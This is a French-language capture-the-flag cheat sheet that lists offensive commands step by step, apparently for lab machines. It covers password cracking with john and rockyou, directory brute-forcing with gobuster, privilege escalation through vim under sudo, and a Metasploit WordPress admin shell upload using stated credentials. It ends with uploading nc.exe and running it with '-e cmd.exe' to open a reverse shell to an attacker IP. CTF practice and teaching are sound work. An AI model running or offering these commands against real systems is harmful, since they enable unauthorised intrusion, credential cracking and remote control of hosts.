 # Astuces et mémos CTF

Liste de mots de passe dans Kali situés dans /usr/share/wordlist/. Exemple d'utilisation avec john
```
john cisco.txt --wordlist=/usr/share/wordlist/rockyou.txt
```

Liste de répertoires web à tester pour trouver des fichiers et répertoires avec Dirbuster ou Gobuster : **/usr/share/wordlist/dirb/** ou **/usr/share/wordlist/dirbuster/**.  Exemple : ```./gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt```.

Passer à un shell BASH
```
SHELL=/bin/bash script -q /dev/null
```

Afficher les commandes exécutables en sudo
```
sudo -l
```

Escalation de privilège depuis Vi/Vim
```
sudo /file/file.conf
:!/bin/bash
```

En cas d'accès à un wp-admin, possibilité de faire un reverse shell avec Metasploit :
```
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```

Puis avoir un shell propre :
```
meterpreter> lcd /home/username/Downloads
meterpreter> cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload /usr/share/windows-binaries/nc.exe
```

En même temps, ouvrir un listener netcat dans un autre terminal : ```nc -lnvp 1234```.
```
meterpreter> execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"
```

Un shell est accessible depuis le listener Netcat.